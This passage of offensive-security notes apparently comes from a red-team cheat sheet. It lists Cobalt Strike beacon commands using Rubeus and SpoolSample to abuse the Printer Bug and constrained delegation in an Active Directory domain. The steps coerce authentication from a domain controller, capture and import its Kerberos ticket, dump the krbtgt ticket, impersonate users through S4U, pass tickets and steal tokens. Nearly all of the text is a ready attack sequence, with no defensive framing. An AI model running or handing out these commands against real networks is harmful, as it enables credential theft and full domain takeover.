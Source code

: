 #### Printer Bug

```
# monitor
beacon> execute-assembly /opt/tools/Rubeus.exe monitor /internal:10 /nowrap

# exploit
beacon> execute-assembly /opt/tools/SpoolSample.exe dc01.vault.io www03.vault.io
[...]

# Rubeus announces new TGT
Found new TGT:
[...]

# Save to disk
PS > [System.IO.File]::WriteAllBytes("C:\Users\sysadm\Desktop\dc01.kirbi", [System.Convert]::FromBase64String("dceIFGjCCBRagAwIBBaEDAgEWooIE[...snip...]rt0Z3QbDUNZQkVSQk9USUMuSv8="))

# import
beacon> kerberos_ticket_use c:\users\sysadm\desktop\dc01.kirbi
```

#### Resources
- https://github.com/ropnop/kerbrute

#### Constrained Delegation

```
# recon
beacon> powerpick Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
[...]

# krbtgt ticket
beacon> execute-assembly /tools/Rubeus.exe dump /service:krbtgt /nowrap
[...]

# impersonate - /altservice option for request of tickets for any service being run by target computer
beacon> execute-assembly /tools/Rubeus.exe s4u /impersonateuser:n.marco /msdsspn:cifs/fs03.vault.io /ticket:doI[...]5JTw== /nowrap
[...]

# check it
beacon> execute-assembly /tools/Rubeus.exe describe /ticket:[...]

# sacraficial process - note luid and process id
beacon> execute-assembly /tools/Rubeus.exe createnetonly /program:c:\windows\system32\cmd.exe
[...]

# impoprt
beacon> execute-assembly /tools/Rubeus.exe ptt /luid:0x3a11332 /ticket:doIGW[...]

# steal
beacon> steal_token 440
[...]
```
